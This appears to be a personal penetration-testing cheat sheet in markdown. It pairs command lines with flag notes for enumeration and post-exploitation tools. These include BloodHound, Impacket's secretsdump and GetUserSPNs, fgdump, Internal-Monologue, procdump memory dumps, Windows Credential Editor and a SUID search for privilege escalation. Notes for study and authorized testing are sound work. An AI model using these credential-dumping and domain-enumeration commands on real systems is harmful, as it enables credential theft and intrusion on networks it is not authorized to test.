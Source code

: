 # [aureport](https://linux.die.net/man/8/aureport):
#### `aureport --tty | grep su`
#### `aureport --tty | grep sudo`
  * -tty reports on tty keystrokes - think hands on shell
  * -l reports on logins
  * -n reports on anomaly events
  * -r reports on responses to anomalies

# [BloodHound](https://github.com/BloodHoundAD/BloodHound):
#### `sudo neo4j console`
#### `BloodHound`
#### `bloodhound-python -u username -p password -ns X.X.X.X -c all`
  * Start up neo4j
  * Run BloodHound (I moved mine to /usr/local/bin/BloodHound then added that to my path)
  * Run the bloodhound-python command from the Kali machine with the ns option being a DC (assuming you installed with `pip3 install bloodhound`)
    * Bonus with this method is you can proxychain it too
  * Alternatively you can maybe run on the victim machine if you can get around AMSI
  * Move the JSON files to the BloodHound UI

# [fgdump](https://web.archive.org/web/20191115054845/https://www.aldeid.com/wiki/FGDump):
#### `fgdump.exe`
#### `fgdump.exe -h X.X.X.X -l <file>`
  * -h specifies the host
  * -l logs the output to a file

# [find](https://linux.die.net/man/1/find): 
#### `find / -name ssh`
#### `find /bin -name ssh`
#### `find /bin -name ssh -exec file {} \`
#### `find / -perm -u=s -type f 2>/dev/null`
  * searches the given path (recursively) for what you entered
  * the last example finds SUID files, which can sometimes be used for privilege escalation

# [Impacket](https://github.com/SecureAuthCorp/impacket):
#### `python3 GetADUsers.py --dc-ip X.X.X.X <FQDN>/<username>:<password>`
#### `python3 GetUserSPNs.py --dc-ip X.X.X.X <FQDN>/<username>:<password>`
#### `python3 secretsdump.py --dc-ip X.X.X.X <FQDN>/<username>:<password>@Y.Y.Y.Y`
#### `python3 secretsdump.py -hashes <ntlm_hash> --dc-ip X.X.X.X --just-dc <FQDN>/DC1\$@Y.Y.Y.Y`
  * The scripts listed above are in the `/impacket/examples` directory
  * The secretsdump script can have Y.Y.Y.Y = X.X.X.X but doesn't have to
  * In the last example it uses the DC's computer account NTLM hash instead of a user/pass

# [Internal-Monologue](https://github.com/eladshamir/Internal-Monologue):
#### `Internal-Monolgue.exe`
#### `msbuild InternalMonologue.sln -p:TargetFrameworkVersion=v4.5`
  * Saved as a submodule in [enumeration](https://github.com/kmanc/offensive_security/tree/master/scripts/enumeration), this can capture hashes from Windows machines
  * Run from an [evil-winrm shell](https://github.com/kmanc/offensive_security/blob/master/notes/access.md#evil-winrm) for results
  * Make sure to build with a .Net Framework that is on the target machine, as shown in the example 

# [klist](https://linux.die.net/man/1/klist):
#### `klist`
  * Shows caches Kerberos tickets for the current user

# [locate](https://linux.die.net/man/1/locate):
#### `locate ssh`
  * run `updatedb` to make sure locate is working with the most current data

# [net.exe](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771865(v=ws.11)):
#### `net user`
#### `net user /domain`
#### `net user username /domain`
#### `net group /domain`
#### `net accounts`

# [netstat](https://linux.die.net/man/8/netstat):
#### `netstat antp`
#### `netstat nao`
  * -a shows all (including established TCP connections)
  * -n shows numbers instead of trying to resolve them
  * -t shows TCP
  * -u shows UDP
  * -p shows the PID to which the socket belongs

# [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump):
#### `procdump.exe -ma <executable>`
#### `procdump.exe -ma YYY` <-- YYY being a PID
  * -ma makes a dump file with all process memory (instead of the default thread and handle information)

# [ps](https://man7.org/linux/man-pages/man1/ps.1.html):
#### `ps aux`
  * a shows more than just the current user's active processes
  * u shows the user whose permissions are applied to the process 
  * x shows processes without a tty

# [tcpdump](https://linux.die.net/man/8/tcpdump):
#### `tcpdump -n -r <pcap_file>`
#### `tcpdump -n src host X.X.X.X -r <pcap_file>`
  * -n prevents DNS lookups of ip addresses
  * -r selects an input file
  * -c chooses a number of packets after which tcpdump stops reading
  * -I puts an interface in monitor mode
  * -w defines the output file

# [which](https://linux.die.net/man/1/which):
#### `which python3` 
#### `which ssh`
  * searches the path for the executable that corresponds to what you entered

# [Windows Credential Editor](https://web.archive.org/web/20191115055522/https://www.aldeid.com/wiki/Windows-credentials-editor):
#### `cwe.exe`
#### `cwe.exe -r`
  * -o logs output to a file
  * -r checks every 5 seconds until command is terminated
